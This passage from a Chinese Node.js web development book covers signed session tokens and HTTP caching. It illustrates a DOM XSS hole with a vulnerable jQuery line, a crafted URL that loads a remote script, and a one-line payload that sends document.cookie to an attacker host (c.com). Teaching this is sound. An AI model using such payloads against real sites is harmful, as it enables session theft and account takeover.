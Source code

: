 
​		这样一来,即使攻击者知道口令中,号前的值是服务器端 Session的ID值,只要不知道 secret 私钥的值,就无法伪造签名信息,以此实现对 Session的保护。该方法被 Connect中间件框架所使用,保护好私钥,就是在保障自己Web应用的安全。
​		当然,将口令进行签名是一个很好的解决方案,但是如果攻击者通过某种方式获取了一个真实的口令和签名,他就能实现身份的伪装。一种方案是将客户端的某些独有信息与口令作为原值,然后签名,这样攻击者一旦不在原始的客户端上进行访问,就会导致签名失败。这些独有信息包括用户IP和用户代理( User Agent）
​		但是原始用户与攻击者之间也存在上述信息相同的可能性,如局域网出口IP相同,相同的客户端信息等,不过纳人这些考虑能够提高安全性。通常而言,将口令存在 Cookie中不容易被他人获取,但是一些别的漏洞可能导致这个口令被泄漏,典型的有XSS漏洞,下面简单介绍一下如何通过XSS拿到用户的口令,实现伪造。

###### XSS漏洞

​		XSS的全称是跨站脚本攻击( Cross Site Scripting,通常简称为XSS),通常都是由网站开发者决定哪些脚本可以执行在浏览器端,不过XSS漏洞会让别的脚本执行。**它的主要形成原因多数是用户的输入没有被转义,而被直接执行**。
​		下面是某个网站的前端脚本,它会将 URL hash中的值设置到页面中,以实现某种逻辑,如下所示:

```
$('#box').html(location.hash.replace('#', ''));
```

攻击者在发现这里的漏洞后,构造了这样的URL:

```
http://a.com/pathname#<script src="http://b.com/c.js"></script>
```


​		为了不让受害者直接发现这段URL中的猫腻,它可能会通过URL压缩成一个短网址,如下所示:



```
http://t.cn/fasdlfj
///或者再次压缩
http://url.cn/fasdlfb
```




​		然后将最终的短网址发给某个登录的在线用户。这样一来,这段hash中的脚本将会在这个用户的浏览器中执行,而这段脚本中的内容如下所示:

```
location.href = "http://c.com/?" + document.cookie;
```


​		这段代码将该用户的 Cookie提交给了c.com站点,这个站点就是攻击者的服务器,他也就能拿到该用户的 Session口令。然后他在客户端中用这个口令伪造Cookie,从而实现了伪装用户的身份。如果该用户是网站管理员,就可能造成极大的危害。
​		XSS造成的危害远远不止这些,这里不再过多介绍。在这个案例中,如果口令中有用户的客户端信息的签名,即使口令被泄漏,除非攻击者与用户客户端完全相同,否则不能实现伪造。



##### 8.1.6缓存

​		我们知道软件的架构经历过一次C/S模式到B/S模式的演变,在HTTP之上构建的应用,其客户端除了比普通桌面应用具备更轻量的升级和部署等特性外,在跨平台、跨浏览器、跨设备上也具备独特优势。传统客户端在安装后的应用过程中仅仅需要传输数据,Web应用还需要传输构成界面的组件(HTML、 JavaScript、CSS文件等)这部分内容在大多数场景下并不经常变更,却需要在每次的应用中向客户端传递,如果不进行处理,那么它将造成不必要的带宽浪费。如果网络速度较差,就需要花费更多时间来打开页面,对于用户的体验将会造成一定影响。因此节省不必要的传输,对用户和对服务提供者来说都有好处。
​		为了提高性能, YSlow中也提到几条关于缓存的规则。
​			添加 Expires或 Cache-Control到报文头中。
​			配置 ETags
​			让Ajax可缓存。

​		这里我们将展开这几条规则的来源。**如何让浏览器缓存我们的静态资源**,这也是一个需要由服务器与浏览器共同协作完成的事情。RFC2616规范对此有一定的描述,只有遵循约定,整个缓存机制才能有效建立。通常说,P0ST、 DELETE、PUT这类带行为性的请求操作一般不做任何缓存,大多数缓存只应用在GET请求中。使用缓存的流程如图8-1所示。
